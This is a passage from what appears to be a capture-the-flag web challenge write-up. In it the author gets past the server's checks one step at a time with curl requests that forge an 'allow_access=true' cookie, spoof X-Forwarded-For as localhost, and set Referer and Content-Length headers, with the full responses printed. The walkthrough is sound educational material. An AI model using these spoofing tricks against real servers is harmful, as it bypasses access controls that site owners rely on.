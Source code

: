 Of course, it's another different `X-Note`. The server satisfied, but now it required me to come from `http://localhost/`. To do so, I used the `Referer` header, which is used to identify the address of the webpage linked to the resource being requested. The `Referer` header stored the address of the previous web page that made me do the current request.

So I sent the adjusted request to the server:

```
curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" --header "X-Forwarded-For: 127.0.0.1" --header "Referer: http://localhost/" -v
```

And here's the response:
```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: identify=YWxsb3dfYWNjZXNzPXRydWU=
> X-Forwarded-For: 127.0.0.1
> Referer: http://localhost/
>
< HTTP/1.1 200 OK
< Date: Thu, 04 Jun 2020 10:08:13 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: Hmm. Your content length () is not match with our rules, which is 10 bytes only.
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 192.81.210.234 left intact
```

And it's another bloody `X-Note`. But this one should be easy; the *content-length* must be 10 bytes, and I can fulfill that by adding `Content-Length` header with a value of 10.

Here's the request:
```
curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" --header "X-Forwarded-For: 127.0.0.1" --header "Referer: http://localhost/" --header "Content-Length: 10" -v
```

And here's the response:
```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: identify=YWxsb3dfYWNjZXNzPXRydWU=
> X-Forwarded-For: 127.0.0.1
> Referer: http://localhost/
> Content-Length: 10
>
< HTTP/1.1 200 OK
< Date: Fri, 05 Jun 2020 04:09:11 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: I see you're not accepting our flag/*. Alright then, aborting.
< Content-Length: 0
< Connection: close
< Content-Type: text/html; charset=UTF-8
<
```